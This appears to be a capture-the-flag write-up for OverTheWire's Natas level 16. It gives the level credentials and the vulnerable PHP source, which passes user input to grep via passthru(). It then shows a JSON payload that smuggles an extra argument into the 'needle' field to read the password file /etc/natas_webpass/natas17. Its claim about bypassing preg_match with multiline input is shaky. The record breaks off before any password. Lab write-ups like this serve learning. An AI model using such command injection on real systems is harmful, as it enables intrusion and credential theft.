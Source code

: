 Level #16 go to URL and find natas17 user password

- URL: http://natas16.natas.labs.overthewire.org/
- User: natas16
- Password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

After navigating to URL an html page with a form with 2 inputs and an anchor element with the text "View sourcecode" is loaded.
Clicking on the anchor elements redirects to the source code of the php script being run by server.
  

```PHP
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

What does it do:
- [preg_match](https://www.php.net/manual/en/function.preg-match.php) performs a regular expression match
- [passthru](https://www.php.net/manual/en/function.passthru.php) runs an external program, specified in the first parameter. It prints everything output by that program to the screen

According to some posts online `preg_match()` is commonly bypassed by using multiline inputs, because pregmatch only tries to match the first line.  
The easiest way to make the payload multiline was by making it a multiline JSON.

```JSON
{
    "needle": "some stuff '",
    "search": "submit"
}
```

Now that we can bypass `preg_match()` a way to search for strings in /etc/natas_webpass/natas17 is needed, so injected some code into 
the `passthru()` function.

```JSON
{
    "needle": "1\" \"/etc/natas_webpass/natas17",
    "search": "submit"
}
```

  
The password for natas17 is 
